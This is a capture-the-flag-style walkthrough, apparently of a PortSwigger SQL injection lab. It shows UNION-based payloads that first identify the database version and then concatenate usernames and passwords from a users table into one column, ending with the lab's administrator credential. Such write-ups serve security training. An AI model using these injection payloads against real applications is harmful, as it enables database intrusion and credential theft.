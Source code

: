 ## Lab Description: SQL injection UNION attack, retrieving multiple values in a single column

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e3d04311-d166-4ed9-b258-1b33f773fd03)

Solution:

First find the database which is used

I want to extract both usernames and passwords, while only having a single string column. For this, I can concatenate multiple values into single fields. The syntax depends on the database engine, so find out which database is used to drive the page. 

` +Union+select+null,version()+from+users+-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/91638dd5-c634-4ae3-b8b3-5a90ce0a1827)

### Extracting Username and Password
I know that users contain username and password.As I have just a single string column, I can either issue two queries and manually combine the data or concatenate these values into a single string to be able to extract them in one go.

` +union+select+null,username+||+'~~'+||password+from+users+-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/370a7811-ace4-495e-a70a-987b7f871e89)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1eea050f-4b2d-4ffd-bd6b-42fc940e7783)

` administrator~~r7yy2wjuwby38u4rk3je `

![Screenshot 2024-01-28 101850](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/92892d6a-87f5-47e8-b1db-3f125e858b59)

![Screenshot 2024-01-28 101907](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c6426aea-03de-40d6-a0b8-fe050737bf8b)

